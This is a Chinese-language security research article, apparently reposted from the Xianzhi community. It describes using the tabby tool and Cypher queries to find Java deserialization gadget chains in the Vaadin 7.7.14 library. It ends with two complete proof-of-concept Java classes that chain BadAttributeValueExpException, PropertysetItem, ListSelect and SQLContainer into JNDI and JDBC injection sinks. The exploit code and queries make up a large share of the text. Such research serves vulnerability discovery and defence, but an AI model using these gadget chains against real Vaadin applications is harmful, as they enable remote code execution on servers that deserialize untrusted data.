









# tabby+vaadin反序列链挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/17391  
> **文章ID**: 17391

---

**分析环境**

vaadin-server-7.7.14 vaadin-shared-7.7.14 jdk1.8.0\_201 tabby2.0

这里直接引用ysoserial中的链：

```
//  +-------------------------------------------------+
//  |                                                 |
//  |  BadAttributeValueExpException                  |
//  |                                                 |
//  |  val ==>  PropertysetItem                       |
//  |                                                 |
//  |  readObject() ==> val.toString()                |
//  |          +                                      |
//  +----------|--------------------------------------+
//             |
//             |
//             |
//        +----|-----------------------------------------+
//        |    v                                         |
//        |  PropertysetItem                             |
//        |                                              |
//        |  toString () => getPropertyId().getValue ()  |
//        |                                       +      |
//        +---------------------------------------|------+
//                                                |
//                  +-----------------------------+
//                  |
//            +-----|----------------------------------------------+
//            |     v                                              |
//            |  NestedMethodProperty                              |
//            |                                                    |
//            |  getValue() => java.lang.reflect.Method.invoke ()  |
//            |                                           |        |
//            +-------------------------------------------|--------+
//                                                        |
//                    +-----------------------------------+
//                    |
//                +---|--------------------------------------------+
//                |   v                                            |
//                |  TemplatesImpl.getOutputProperties()           |
//                |                                                |
//                +------------------------------------------------+
```

其中BadAttributeValueExpException和TemplatesImpl是jdk中的类，因此针对上面的调用链，具体分析从vaadin依赖中getValue到sink点的链子，通过调用关系，很容易写出cypher查询语句：

```
match (sink:Method{NAME0:"com.vaadin.data.Property#getValue"})
match path=((m1:Method{NAME:"toString"})-[:CALL*1]->(sink))
return path limit 20
```



```
match (sink:Method{NAME0:"com.vaadin.data.Property#getValue"})
match path=((m1:Method{NAME:"toString"})-[:CALL*1]->(sink)-[:ALIAS*1]->(m:Method))
return path limit 20
```



除去jdk中的类，具体分析从vaadin依赖中getValue到sink点的链子，尝试挖掘其他链子

这里利用tabby中封装好的sink点

```
match (source:Method{IS_SERIALIZABLE:TRUE})
  where source.CLASSNAME starts with "com.vaadin."
match path=((source)-[:CALL*1]->(m:Method{IS_SINK:TRUE}))
return path limit 20
```

筛选发现有两条疑似可利用的点：

  
 分别是com.vaadin.data.util.sqlcontainer.connection.J2EEConnectionPool#lookupDataSource，这里参数可控可以造成jndi注入：  
  
com.vaadin.data.util.sqlcontainer.connection.SimpleJDBCConnectionPool#createConnection，这里参数可控可以造成jdbc注入：  


从lookupDataSource出发分析，看能否挖掘出这条链，尝试发现最多调用2层，3层就没有调用链  
  
发现原因在于com.vaadin.data.util.sqlcontainer.connection.J2EEConnectionPool#reserveConnection是实现了com.vaadin.data.util.sqlcontainer.connection.JDBCConnectionPool#reserveConnection接口，那么这里就要手动添加一个别名关系：  
  
再查询该接口的调用，这里调用可以限定最开始调用函数name=getValue的前提条件，添加CAll深度，如果没有调用的话，则考虑是否出现了前面那种针对接口调用的情况，即在当前函数调用的尽头通过添加别名关系使得调用链可延展，整个过程中还要分析当前调用链是否可以执行（参数是否可控等）  
**createConnection**最终调用链：

```
match path=((m7:Method)-[:CALL*1]->(m6:Method)-[:ALIAS*1]->(m5:Method)-[:CALL*1]->(m4:Method)-[:ALIAS*1]->(m3:Method)-[:CALL*3]->(m2:Method)-[:ALIAS*1]->(m1:Method)-[:CALL*2]->(m:Method{NAME:"createConnection"}))

where m7.NAME="getValue"

return path limit 20
```



这里中间还有一条分支，但是最终sink点还是一样，同样的，

**lookupDataSource**最终调用链：

```
match path=((m7:Method)-[:CALL*1]->(m6:Method)-[:ALIAS*1]->(m5:Method)-[:CALL*1]->(m4:Method)-[:ALIAS*1]->(m3:Method)-[:CALL*3]->(m2:Method)-[:ALIAS*1]->(m1:Method)-[:CALL*2]->(m:Method{NAME:"lookupDataSource"}))

where m7.NAME="getValue"

return path limit 20
```



相关poc:

jndi注入

```
import com.example.Utils.ReflectionUtil;
import com.example.Utils.SerializeUtil;
import com.vaadin.data.util.PropertysetItem;
import com.vaadin.data.util.sqlcontainer.RowId;
import com.vaadin.data.util.sqlcontainer.SQLContainer;
import com.vaadin.data.util.sqlcontainer.connection.J2EEConnectionPool;
import com.vaadin.data.util.sqlcontainer.query.TableQuery;
import com.vaadin.data.util.sqlcontainer.query.generator.DefaultSQLGenerator;
import com.vaadin.ui.ListSelect;

import javax.management.BadAttributeValueExpException;
import java.util.ArrayList;

public class POC_JNDI {

    public static void main(String[] args) throws Exception {
        J2EEConnectionPool pool = new J2EEConnectionPool("payload");

        TableQuery tableQuery = (TableQuery) ReflectionUtil.createWithoutConstructor(Class.forName("com.vaadin.data.util.sqlcontainer.query.TableQuery"));
        ReflectionUtil.setField(tableQuery, "primaryKeyColumns", new ArrayList<>());
        ReflectionUtil.setField(tableQuery, "fullTableName", "test");
        ReflectionUtil.setField(tableQuery, "sqlGenerator", new DefaultSQLGenerator());
        ReflectionUtil.setField(tableQuery, "connectionPool", pool);

        ListSelect listSelect = new ListSelect();
        SQLContainer sql = (SQLContainer) ReflectionUtil.createObject("com.vaadin.data.util.sqlcontainer.SQLContainer", new Class[]{}, new Object[]{});
        ReflectionUtil.setField(sql, "queryDelegate", tableQuery);

        RowId id = new RowId("id");
        ReflectionUtil.setField(listSelect, "value", id);
        ReflectionUtil.setField(listSelect, "multiSelect", true);
        ReflectionUtil.setField(listSelect, "items", sql);
        PropertysetItem propertysetItem = new PropertysetItem();
        propertysetItem.addItemProperty("key", listSelect);

        BadAttributeValueExpException bad = new BadAttributeValueExpException(0);
        ReflectionUtil.setField(bad, "val", propertysetItem);

        SerializeUtil.deserialize(SerializeUtil.serialize(bad));
    }

}
```

jdbc注入：

```
import com.example.Utils.ReflectionUtil;
import com.example.Utils.SerializeUtil;
import com.vaadin.data.util.PropertysetItem;
import com.vaadin.data.util.sqlcontainer.RowId;
import com.vaadin.data.util.sqlcontainer.SQLContainer;
import com.vaadin.data.util.sqlcontainer.connection.J2EEConnectionPool;
import com.vaadin.data.util.sqlcontainer.connection.SimpleJDBCConnectionPool;
import com.vaadin.data.util.sqlcontainer.query.TableQuery;
import com.vaadin.data.util.sqlcontainer.query.generator.DefaultSQLGenerator;
import com.vaadin.ui.ListSelect;

import javax.management.BadAttributeValueExpException;
import java.util.ArrayList;

public class POC_JDBC {

    public static void main(String[] args) throws Exception {
        SimpleJDBCConnectionPool jdbc = (SimpleJDBCConnectionPool) ReflectionUtil.createWithoutConstructor(Class.forName("com.vaadin.data.util.sqlcontainer.connection.SimpleJDBCConnectionPool"));
        ReflectionUtil.setField(jdbc, "connectionUri", "payloadurl");
        ReflectionUtil.setField(jdbc, "userName", "user");
        ReflectionUtil.setField(jdbc, "password", "passwd");
        ReflectionUtil.setField(jdbc, "initialConnections", 1);

        TableQuery tableQuery = (TableQuery) ReflectionUtil.createWithoutConstructor(Class.forName("com.vaadin.data.util.sqlcontainer.query.TableQuery"));
        ReflectionUtil.setField(tableQuery, "primaryKeyColumns", new ArrayList<>());
        ReflectionUtil.setField(tableQuery, "fullTableName", "test");
        ReflectionUtil.setField(tableQuery, "sqlGenerator", new DefaultSQLGenerator());
        ReflectionUtil.setField(tableQuery, "connectionPool", jdbc);

        ListSelect listSelect = new ListSelect();
        SQLContainer sql = (SQLContainer) ReflectionUtil.createObject("com.vaadin.data.util.sqlcontainer.SQLContainer", new Class[]{}, new Object[]{});
        ReflectionUtil.setField(sql, "queryDelegate", tableQuery);

        RowId id = new RowId("id");
        ReflectionUtil.setField(listSelect, "value", id);
        ReflectionUtil.setField(listSelect, "multiSelect", true);
        ReflectionUtil.setField(listSelect, "items", sql);
        PropertysetItem propertysetItem = new PropertysetItem();
        propertysetItem.addItemProperty("key", listSelect);

        BadAttributeValueExpException bad = new BadAttributeValueExpException(0);
        ReflectionUtil.setField(bad, "val", propertysetItem);

        SerializeUtil.deserialize(SerializeUtil.serialize(bad));
    }

}
```
